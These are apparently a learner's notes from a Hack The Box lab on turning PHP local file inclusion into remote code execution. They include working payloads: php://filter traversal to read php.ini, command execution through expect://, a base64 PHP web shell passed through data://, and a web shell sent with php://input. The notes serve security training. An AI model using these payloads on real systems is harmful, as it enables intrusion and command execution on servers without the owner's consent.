   PHP Wrappers

```shell-session
ShibuShivansh@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
```

As we can see, the `extension` configuration keyword is used to enable the `expect` module, which means we should be able to use it for gaining RCE through the LFI vulnerability. To use the expect module, we can use the `expect://` wrapper and then pass the command we want to execute, as follows:

  PHP Wrappers

```shell-session
ShibuShivansh@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, executing commands through the `expect` module is fairly straightforward, as this module was designed for command execution, as mentioned earlier. The [Web Attacks](https://academy.hackthebox.com/module/details/134) module also covers using the `expect` module with XXE vulnerabilities, so if you have a good understanding of how to use it here, you should be set up for using it with XXE.

These are the most common three PHP wrappers for directly executing system commands through LFI vulnerabilities. We'll also cover the `phar` and `zip` wrappers in upcoming sections, which we may use with web applications that allow file uploads to gain remote execution through LFI vulnerabilities.

## Checking PHP Configurations
First check the /etc/php/X.Y/fpm/php.ini File in the server to do so we can use the command : `curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"`

Then check for allow_url_include option, if it's On, then we use  `echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include`

Then, we'll create a PHP Payload and encode it to base64 : `echo '<?php system($_GET["cmd"]); ?>' | base64`

And then we can pass its output like this : `http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`

By this command, we can send a POST Request to the vulnerable URL and our web shell as POST data : 
```shell-session
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```
Note : To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use `$_REQUEST`). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. `<\?php system('id')?>`)

Here we are taking the reference of the Base64 encoded source code the file and then checking for a particular option over there names as "expect".
Expect which allows us to directly run commands through URL streams. Expect works very similarly to the web shells we've used earlier, but don't need to provide a web shell, as it is designed to execute commands.
```shell-session
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
```
